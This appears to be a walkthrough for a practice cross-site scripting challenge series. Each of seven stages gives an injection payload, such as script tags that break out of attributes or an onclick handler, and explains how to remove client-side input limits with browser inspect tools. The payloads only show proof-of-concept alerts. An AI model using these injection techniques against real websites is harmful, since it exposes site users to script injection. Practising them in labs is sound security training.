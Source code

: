 ## Stage #1
**Payload:** `<script>alert(document.domain)</script>`


## Stage #2
**Payload:** `"><script>alert(document.domain)</script>//`


## Stage #3
Go to inspect and change a option (e.g. USA) to `<script>alert(document.domain)</script>`
Then choose this and click search


## Stage #4
Go to inspect. You'll see a hidden input field after the select tag. Make it visible by removing `type`.
Then use this payload in that input field:
```
"><script>alert(document.domain)</script>//
```

## Stage #5
Go to inspect. You will see a input field like this:
```html
<input type="text" name="p1" maxlength="15" size="30" value="">
```
So just delete the maxlength="15" and size="30".
Then use this payload in that input field:
```
"><script>alert(document.domain)</script>//
```

## Stage #6
Use this payload: `" onclick=alert(document.domain)`
Click the search button. Then click the input field again. SOLVED!

## Stage #7
Same as **Stage #6**. Use this payload: `" onclick=alert(document.domain)`

